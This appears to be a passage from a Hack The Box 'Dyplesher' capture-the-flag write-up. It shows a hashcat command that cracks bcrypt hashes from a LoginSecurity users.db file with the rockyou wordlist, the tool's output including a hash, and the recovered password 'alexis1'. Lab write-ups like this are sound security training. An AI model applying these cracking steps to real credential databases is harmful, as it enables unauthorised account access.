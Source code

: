 users.db \(with pictures\)

![](../../.gitbook/assets/14-loginsecurity-usersdb-password.png)

```text
┌──(zweilos㉿kali)-[~/htb/dyplesher]
└─$ hashcat -O -D1,2 -a0 -m3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

Kernel /usr/share/hashcat/OpenCL/m03200-optimized.cl:
Optimized kernel requested but not needed - falling back to pure kernel

Hashfile 'hashes' on line 3 ($2a$10...GefnAH3zipl.FRNySz5C4RjitiwUoalS): Token length exception
Hashes: 3 digests; 3 unique digests, 3 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte

INFO: Removed 1 hash found in potfile.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2a$10$IRgHi7pBhb9K0QBQBOzOju0PyOZhBnK4yaWjeZYdeP6oyDvCo9vc6:alexis1
```



another password found: `alexis1` - LoginSecurity plugin
